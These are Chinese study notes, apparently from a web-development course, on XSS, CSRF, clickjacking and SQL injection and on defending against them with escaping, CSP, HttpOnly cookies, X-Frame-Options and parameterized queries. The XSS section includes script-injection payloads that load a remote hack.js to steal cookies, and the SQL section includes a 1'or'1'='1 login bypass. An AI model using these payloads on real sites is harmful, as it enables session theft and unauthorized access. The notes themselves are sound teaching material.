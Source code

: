 我们必须理解这么几个方面：sql 注入、xss、csrf、cookie 安全、密码安全等等。
sql 注入，要理解 sql 注入的场景，它的原理是什么，当前的数据库的解决方案是什么？（不知道密码，利用一些特定的 sql 语句，返回用户信息）
xss 攻击，常见的攻击场景，什么类型的网站容易被 xss 攻击，整个流程的原理是什么？
csrf 攻击，其实就是一个钓鱼网站，要理解为什么会收到攻击，应该采取什么策略进行防御。
cookie 安全，要理解为什么用 token，优势等。
密码安全，主要是用户登陆，用户数据提交，加密，存入数据库的一整个流程。
其次，其实还有 http 和 https 的问题等等。

# XSS

[不错的](https://my.oschina.net/u/4446873/blog/3229798/print)

概念: Cross Site Scripting 跨站脚本攻击

比如，一个博客网站，我发表一篇博客，其中嵌入 script 脚本 脚本内容 获取 cookie，发送到我的服务器(服务端配合跨域)，
发布这篇博客，有人查看，轻松拿到了访问者的 cookie

XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS 重叠，所以只能叫 XSS。跨站脚本攻击是指通过
存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的非本站点 HTML 标签或 JavaScript 进行的一种攻击。

跨站脚本攻击有可能造成以下影响:

- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。

1. XSS 攻击分类

```js
// 普通 http://localhost:3000/?from=china // alert尝试 http://localhost:3000/?from=<script>alert(3)</script> // 获取Cookie http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script> // 短域名伪造 https://dwz.cn/ // 伪造cookie入侵 chrome document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxO DYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

2. 存储型 - 存储到 DB 后读取时注入

```js
// 评论 <script>alert(1)</script> // 跨站脚本注入 我来了<script src="http://localhost:4000/hack.js"></script>
```

XSS 攻击的危害 - Scripting 能干啥就能干啥
获取页面数据
获取 Cookies
劫持前端逻辑
发送请求
偷取网站的任意数据
偷取用户的资料
偷取用户的秘密和登录态
欺骗用户

3. 防范手段

```
 ejs转义小知识
<% code %>用于执行其中javascript代码； <%= code %>会对code进行html转义； <%- code %>将不会进行转义
```

- head

```js
ctx.set('X-XSS-Protection', 0) // 禁止XSS过滤
http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装一下就不行了
```

0 禁止 XSS 过滤。
1 启用 XSS 过滤（通常浏览器是默认的）。 如果检测到跨站脚本攻击，浏览器将清除页面（删除不安全的部
分）。
1;mode=block 启用 XSS 过滤。 如果检测到攻击，浏览器将不会清除页面，而是阻止页面加载。
1; report= (Chromium only)
启用 XSS 过滤。 如果检测到跨站脚本攻击，浏览器将清除页面并使用 CSP report-uri 指令的功能发送违规
报告。

- CSP

* 转义字符 尖括号啊单双引号做一些转义 就不会执行了 比如我们的 script 标签
* 黑名单
  用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义

```js
npm - xss
替换特殊字符： 如 < 变成 &lt; > 变成&gt
<script>变为  &lt;script&gt;,直接显示，而不会作为脚本执行
前后端都要替换
function escape(str) {
  str = str.replace(/&/g, '&amp;');
  str = str.replace(/</g, '&lt;');
  str = str.replace(/>/g, '&gt;');
  str = str.replace(/"/g, '&quto;');
  str = str.replace(/'/g, '&#39;');
  str = str.replace(/`/g, '&#96;');
  str = str.replace(/\//g, '&#x2F;');
  return str;
}
```
富文本来说，显然不能通过上面的办法来转义所有字符，因为这样会把需要的格式也过滤掉。对于这种情
况，通常采用白名单过滤的办法，当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在
太多，更加推荐使用白名单的方式。

- 白名单

```js
const xss = require('xss');
let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>');
// -> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt; console.log(html)
```

- HttpOnly Cookie
这是预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应 用程序在设置 cookie 时，将其属性设为
HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。
<!-- response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly") -->

# CSRF

CSRF(Cross Site Request Forgery)，即跨站请求伪造，是一种常见的 Web 攻击，它利用用户已登录的身份，
在用户毫不知情的情况下，以用户的名义完成非法操作。

- 用户已经登录了站点 A，并在本地记录了 cookie
- 在用户没有登出站点 A 的情况下（也就是 cookie 生效的情况下），访问了恶意攻击者提供的引诱危险站点 B
  (B 站点要求访问站点 A)。
- 站点 A 没有做任何 CSRF 防御

- demo
```js
⼀个典型的CSRF攻击有着如下的流程：
1. 受害者登录 a.com ，并保留了登录凭证（Cookie） 
2. 攻击者引诱受害者访问了 b.com b.com 向 a.com 发送了⼀个请求： a.com/act=xx 浏览器会默认携带a.com的Cookie 
3. a.com接收到请求后，对请求进⾏验证，并确认是受害者的凭证，误以为是受害者⾃⼰发送的请求
4. a.com以受害者的名义执⾏了act=xx 
5. 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让a.com执⾏了⾃⼰定义的操作
```

CSRF 攻击危害

- 利用用户登录态
- 用户不知情 利用登录状态
- 完成业务请求
- 盗取用户资金（转账，消费）
- 冒充用户发帖背锅
- 损害网站声誉

防御

- 禁止第三方网站带 Cookie - 有兼容性问题
- Referer Check - Https 不发送 referer 来源 referer
- 验证码

## 如何预防CSRF?
CSRF通常从第三⽅⽹站发起，被攻击的⽹站⽆法防⽌攻击发⽣，只能通过增强⾃⼰⽹站针对CSRF的防护能⼒来提升 安全性。

CSRF的两个特点： CSRF（通常）发⽣在第三⽅域名。 CSRF攻击者不能获取到Cookie等信息，只是使⽤。
针对这两点，我们可以专⻔制定防护策略，如下： 阻⽌不明外域的访问 同源检测 Samesite Cookie 提交时要求附加本域才能获取的信息 CSRF Token 双重Cookie验证 因此我们可以针对性得进⾏预防

![](./img/cookie.png)
# 点击劫持 - clickjacking

点击劫持是一种视觉欺骗的攻击手段。攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己的网页中，
并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击。

防御？

- X-FRAME-OPTIONS
  用 iframe 嵌套的点击劫持攻击。
  该响应头有三个值可选，分别是
  DENY，表示页面不允许通过 iframe 的方式展示
  SAMEORIGIN，表示页面可以在相同域名下通过 iframe 的方式展示
  ALLOW-FROM，表示页面可以在指定来源的 iframe 中展示
  ctx.set('X-FRAME-OPTIONS', 'DENY')

# SQL 注入

```
// 填入特殊密码 1'or'1'='1 // 拼接后的SQL SELECT * FROM test.user WHERE username = 'laowang' AND password = '1'or'1'='1'
```

防御？
所有的查询语句建议使用数据库提供的参数化查询接口\*\*，参数化的语句使用参数而不是将用户输入变量嵌
入到 SQL 语句中，即不要直接拼接 SQL 语句。例如 Node.js 中的 mysqljs 库的 query 方法中的 ? 占位参
数。

```
// 错误写法 const sql = ` SELECT * FROM test.user WHERE username = '${ctx.request.body.username}' AND password = '${ctx.request.body.password}' `console.log('sql', sql) res = await query(sql) // 正确的写法 const sql = ` SELECT * FROM test.user WHERE username = ? AND password = ? `console.log('sql', sql, ) res = await query(sql,[ctx.request.body.username, ctx.request.body.password])
```

严格限制 Web 应用的数据库的操作权限**，给此用户提供仅仅能够满足其工作的最低权限，从而最大限度的
减少注入攻击对数据库的危害
后端代码检查输入的数据是否符合预期**，严格限制变量的类型，例如使用正则表达式进行一些匹配处理。
对进入数据库的特殊字符（'，"，\，<，>，&，\*，; 等）进行转义处理，或编码转换\*\*。基本上所有的后端
语言都有对字符串进行转义处理的方法，比如 lodash 的 lodash.\_escapehtmlchar 库。

# 请求劫持
